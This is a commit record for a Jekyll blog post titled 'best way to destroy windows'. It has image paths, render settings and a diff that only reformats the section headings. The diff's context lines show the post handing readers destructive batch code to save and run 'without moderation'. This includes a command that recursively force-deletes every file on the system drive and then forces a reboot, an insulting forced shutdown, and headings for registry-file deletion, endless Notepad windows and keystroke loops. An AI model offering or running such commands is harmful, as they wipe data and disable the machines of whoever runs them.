

Before and after one commit to DropAll/dropall.github.io, a Jekyll site: the page built from _posts/2016-11-13-best-way-to-destroy-windows.md, in a window 1280 px wide and 900 px high, scrolled down 851 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
win 10.1.1.1 last - builder 123912313821123

````diff
--- a/_posts/2016-11-13-best-way-to-destroy-windows.md
+++ b/_posts/2016-11-13-best-way-to-destroy-windows.md
@@ -20,8 +20,7 @@ Run this command without moderation;)
 
 Save the file anywhere (.bat) and execute it:
 
-###### 2.1 The blue screen of Death
-
+- ###### 2.1 The blue screen of Death
 Code:
 
 ```
@@ -30,9 +29,7 @@ del %systemdrive%\*.*/f/s/q
 shutdown -r -f -t 00
 ```
 
-
-###### 2.2 Stupidity Shutdown
-
+- ###### 2.2 Stupidity Shutdown
 code:
 
 ```
@@ -42,8 +39,7 @@ shutdown -c “Error! You are too stupid!” -s -t 10
 ```
 
 
-###### 2.3 Delete Key Registry Files
-
+- ###### 2.3 Delete Key Registry Files
 code:
 
 ```
@@ -57,8 +53,7 @@ GOTO MESSAGE
 ```
 
 
-###### 2.4 Endless Notepads
-
+- ###### 2.4 Endless Notepads
 code:
 
 ```
@@ -69,8 +64,7 @@ GOTO top
 ```
 
 
-###### 2.5 Crazy caps lock
-
+- ###### 2.5 Crazy caps lock
 code:
 
 ```
@@ -82,8 +76,7 @@ loop
 ```
 
 
-###### 2.6 Endless Enter
-
+- ###### 2.6 Endless Enter
 code:
 
 ```
@@ -95,8 +88,7 @@ loop
 ```
 
 
-###### 2.7 Endless Backspace
-
+- ###### 2.7 Endless Backspace
 code:
 
 ```
@@ -109,8 +101,7 @@ loop
 ```
 
 
-###### 2.8 Popping CD Drives
-
+- ###### 2.8 Popping CD Drives
 code:
 
 ```
````
